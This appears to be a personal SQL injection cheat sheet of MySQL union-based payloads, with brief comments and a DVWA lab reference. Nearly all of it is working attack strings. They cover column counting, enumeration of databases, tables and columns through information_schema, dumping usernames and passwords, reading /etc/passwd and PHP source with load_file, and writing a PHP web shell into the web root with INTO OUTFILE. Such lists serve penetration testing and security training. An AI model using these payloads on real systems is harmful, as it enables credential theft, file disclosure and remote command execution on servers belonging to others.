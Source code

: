 ## SQL Injection

### Some coded
```
#Try sql Inject with -1 and -1' (Single quote play a great role)
#Comment at the end, try -- - and # and nothing
-1 order by 1 -- -
-1 order by 10 -- -
-1' order by 1 -- -
-1' order by 10 -- -
-1 union all select 1, 2, 3; #
-1 union all select 1, 2, @@version #
#Get list of databases (schema_name is for database name)
-1 union all select 1, 2, 4,5, GROUP_CONCAT(schema_name  SEPARATOR', '), 6, 7 FROM information_schema.schemata #
#Get current database()
-1 union all select 1, database(), user() #
#Get table list of tables and their columns
-1 union all select 1, 2, 4,5, GROUP_CONCAT(table_name, '::', column_name,'::'  SEPARATOR ';'), 6, 7 FROM information_schema.columns where table_schema != 'information_schema' and table_schema != 'mysql' and table_schema != 'performance_schema' # 


SELECT GROUP_CONCAT(table_name SEPARATOR ';') FROM information_schema.tables WHERE table_schema = 'dvwa';

SELECT GROUP_CONCAT(COLUMN_NAME SEPARATOR ';')  FROM INFORMATION_SCHEMA.COLUMNS   WHERE TABLE_SCHEMA = '_1bd3e0294da19198' AND TABLE_NAME = '__Auth';

SELECT COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = '__Auth' AND COLUMN_NAME = 'name';

SELECT name COLLATE utf8mb4_general_ci FROM __Auth;

#utf8mb4_general_ci here is the collation obtained from SELECT COLLATION_NAME Statement

SELECT name COLLATE utf8mb4_general_ci FROM __Auth

#check table name having a specific column name

SELECT TABLE_NAME FROM information_schema.columns WHERE column_name = 'reset_password_key';



-1 union all select 1, 2, table_name from information_schema.tables #

-1 union all select 1, table_name, column_name, 4, 5 from information_schema.columns where table_name='users' #

#Get content of tables 

-1 union all select 1, username, password from users #

#Load file
-1 union all select database(), user(), load_file('/etc/passwd')  #
-1 union all select 1, 2, 3, 4,load_file('/var/www/html/index.php'),6, 7 #
-1 union all select 1, 2, 3, 4,to_base64(load_file('/var/www/html/index.php')),6, 7 #

#Write into file
-1 union all select 1, "<?php echo shell_exec($_GET['cmd']);?>", 3, 4 into OUTFILE '/var/www/html/shell.php' #
```
